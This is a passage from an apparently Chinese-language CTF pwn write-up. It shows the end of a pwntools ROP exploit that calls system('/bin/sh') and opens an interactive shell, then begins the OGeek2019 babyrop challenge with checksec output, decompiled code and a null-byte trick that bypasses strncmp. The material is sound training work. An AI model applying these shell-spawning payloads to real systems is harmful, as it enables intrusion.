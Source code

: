 ```python
payload += p64(binsh_addr)
payload += p64(system_plt)

io.sendline(payload)
io.interactive()
```



本地打不通，但是远程打通了，本地应该是缺少什么文件





## [OGeek2019]babyrop（libc打不通）



```
helloctfos@Hello-CTF:~/pwnenv$ checksec pwn
[*] '/home/helloctfos/pwnenv/pwn'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
helloctfos@Hello-CTF:~/pwnenv$ file pwn
pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6503b3ef34c8d55c8d3e861fb4de2110d0f9f8e2, stripped
```





ida查看





核心部分：

s和v1比较，也就是a1和v1比较，\x00截断绕过strncmp

```
int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s[32]; // [esp+Ch] [ebp-4Ch] BYREF
  char buf[32]; // [esp+2Ch] [ebp-2Ch] BYREF
  ssize_t v5; // [esp+4Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  memset(buf, 0, sizeof(buf));
  sprintf(s, "%ld", a1);
  v5 = read(0, buf, 0x20u);
  buf[v5 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return (unsigned __int8)buf[7];
}
```
